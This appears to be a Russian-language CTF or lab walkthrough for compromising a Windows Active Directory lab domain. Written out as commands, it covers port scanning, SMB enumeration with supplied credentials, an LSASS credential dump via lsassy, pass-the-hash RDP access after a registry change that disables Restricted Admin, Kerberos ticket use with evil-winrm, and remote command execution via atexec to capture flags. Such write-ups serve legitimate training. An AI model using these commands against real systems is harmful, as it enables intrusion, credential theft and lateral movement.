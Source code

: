 

Просканируем все хосты для определения векторов атак 
```
 nmap -iL url.txt -p10050,10051,10250,10255,1099,111,135,139,143,1433,1434,1500,1521-1527,1540,1541,161,179,2001,2010,2049,21,2181,22,2222,23,2375,2376,2379,25,27017,27018,2809,3050,3200-3299,3306,3389,389,443,445,4678,4786,4848,4899,49152,50013,50070,53,5432,5433,5555,5557,5558,5559,5601,5666,5800-5810,5900,5901,5985,5986,623,636,6379,6443,7001,7873,80,8000,8001,8002,8004,8006,8007,8008,8080,8081,8111,8180,8200,8201,8291,8400,8443,8500,8501,873,88,8879,8888,9000,9043,9060,9080,9200,9300,9443,9501,9502,9503 --open -sVC
```
Исследуем доступные шары и пользователей с полученными кредами
```
nxc smb 10.168.68.3-10.168.68.6 -u "Bob" -p "b0b1sH@cker" --shares --users                     

```
Находим шару BobsFolder на DC. Подключаем и находим хеш пользователя SuperAdmin
```
smbclient //10.168.68.3/BobsFolder -U Bob                                                   

get mailToBob.txt
```
Проверим доступ и попытаемся выгрузить lsassy
```
nxc smb 10.168.68.3-10.168.68-6 -u "SuperAdmin" -H  "hash" -M lsassy
```
Получаем хеш пользователя Administrator
# SRV1
Проверяем доступ к srv1 через rdp
```
nxc rdp 10.168.68.4 -u "Administrator" -H  "hash"
```
При подключение к rdp с помощью команды ``` xfreerdp3 /v:10.168.68.4 /u:Administrator /pth:hash /d:corp.local``` получаем ошибку
Для исправления воспользуемся командой 
```
impacket-reg Administrator:''@10.168.68.4 -hashes :<hash> add -keyName HKLM\\System\\CurrentControlSet\\Control\\Lsa -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
```
и зачем повторно подключимся по rdp и забираем флаг  с рабочего стола администратора
# SRV2

Настраиваем /etc/hosts
```
10.168.68.3 dc.corp.local
10.168.68.4 srv1.corp.local
10.168.68.5 srv2.corp.local
10.168.68.6 srv3.corp.local
```
Настраиваем /etc/krb5.conf
```
[libdefaults]
  default_realm = corp.local
[realms]
  CORP.LOCAL = {
    kdc = 10.168.68.3
  }
```

Синхронизируем время с dc
```
sudo rdate -n 10.168.68.3
```
Получаем тикет
```
impacket-getTGT corp.local/SuperAdmin -hashes :<hash> -dc-ip 10.168.68.3
```
Подключаемся через evil-winrm с использованием тикета и забираем флаг
```
KRB5CCNAME=./SuperAdmin.ccache evil-winrm -i srv2.corp.local -u SuperAdmin  -r corp.local
```

# SRV3
Проверим создание задачи с помощью службы планировщика
```
impacket-atexec -hashes :<hash> corp.local/SuperAdmin@10.168.68.6 systeminfo
```
Перейдем в директорию и прочитаем флаг
```
impacket-atexec -hashes :<hash> corp.local/SuperAdmin@10.168.68.6 'cd C:\Users\Administrator\Desktop && type flag.txt'
```